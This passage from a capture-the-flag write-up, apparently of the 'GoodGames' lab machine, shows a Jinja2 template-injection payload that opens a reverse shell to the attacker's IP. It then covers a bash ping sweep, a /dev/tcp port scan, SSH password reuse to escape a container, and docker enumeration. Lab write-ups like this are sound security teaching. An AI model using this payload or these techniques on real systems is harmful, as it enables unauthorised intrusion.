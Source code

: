 ### 3.2 Spawn Shell
#
I use the following payload to have a reverse shell:
    
    {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.5/1234 0>&1"').read() }}

In `/home/augustus` we have the user flag !

## 4. Privilege Escalation
We are obviously in a container and despite being root, i only found the user flag. The _ifconfig_ shows an IP of 172.19.0.2 on eth0.

After seeing permissions, printing / etc / passwd, seeing partitions, etc., I couldn't find anything. However, a quick ping sweep shows the presence of another host.

    root@3a453ab39d3d:~# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
    64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.062 ms
    64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.060 ms

With a quick port scan we check which ports are open

    root@3a453ab39d3d:/tmp# for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
    22 open
    80 open

A quick curl of 172.19.0.1 returns the website, which suggests that port is being forwarded back to this container through the host.

At this point we try to connect to the host via `ssh` and see if there is `password reuse`.

    root@3a453ab39d3d:~# ssh augustus@172.19.0.1
    augustus@172.19.0.1's password: 
    Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun May 22 22:17:15 2022 from 172.19.0.2
    augustus@GoodGames:~$ 

### 4.1 Enumeration
#
Docker is in the process list, and it matches what I suspected from the container’s point of view:

    augustus@GoodGames:~$ ps auxww | grep docker
    root       908  0.0  2.1 1457176 86204 ?       Ssl  02:40   0:09 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
    root      1246  0.0  0.2 1222636 9616 ?        Sl   02:40   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8085 -container-ip 172.19.0.2 -container-port 8085
